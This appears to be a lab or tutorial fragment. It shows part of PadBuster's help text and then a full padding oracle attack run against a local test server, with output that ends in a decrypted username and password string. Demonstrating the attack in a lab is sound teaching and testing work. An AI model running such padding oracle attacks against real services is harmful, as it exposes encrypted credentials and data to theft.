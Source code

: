 ```bash
	 -resume [Block Number]: Resume at this block number
	 -usebody: Use response body content for response analysis phase
     -verbose: Be Verbose
     -veryverbose: Be Very Verbose (Debug Only)

```



```Bash
./padBuster.pl "http://127.0.0.1:5000/echo?cipher=484b850123a04baf15df9be14e87369bd692263a07c6390ba29097b2e57aadc3c4ece78807a0bd1ee02b447f9345c126" "484b850123a04baf15df9be14e87369bd692263a07c6390ba29097b2e57aadc3c4ece78807a0bd1ee02b447f9345c126" 16 -encoding 1

+-------------------------------------------+
| PadBuster - v0.3.3                        |
| Brian Holyfield - Gotham Digital Science  |
| labs@gdssecurity.com                      |
+-------------------------------------------+

INFO: The original request returned the following
[+] Status: 200
[+] Location: N/A
[+] Content Length: 53

INFO: Starting PadBuster Decrypt Mode
*** Starting Block 1 of 2 ***

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#	Freq	Status	Length	Location
-------------------------------------------------------
1	1	200	42	N/A
2 **	255	200	16	N/A
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

....
Block 2 Results:
[+] Cipher Text (HEX): c4ece78807a0bd1ee02b447f9345c126
[+] Intermediate Bytes (HEX): a5e5494863fb4d6ed1e491b4e37cabc5
[+] Plain Text: sword=test

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): ame=PegasusX&Password=test

[+] Decrypted value (HEX): 616D653D50656761737573582650617373776F72643D74657374060606060606

[+] Decrypted value (Base64): YW1lPVBlZ2FzdXNYJlBhc3N3b3JkPXRlc3QGBgYGBgY=

-------------------------------------------------------

```
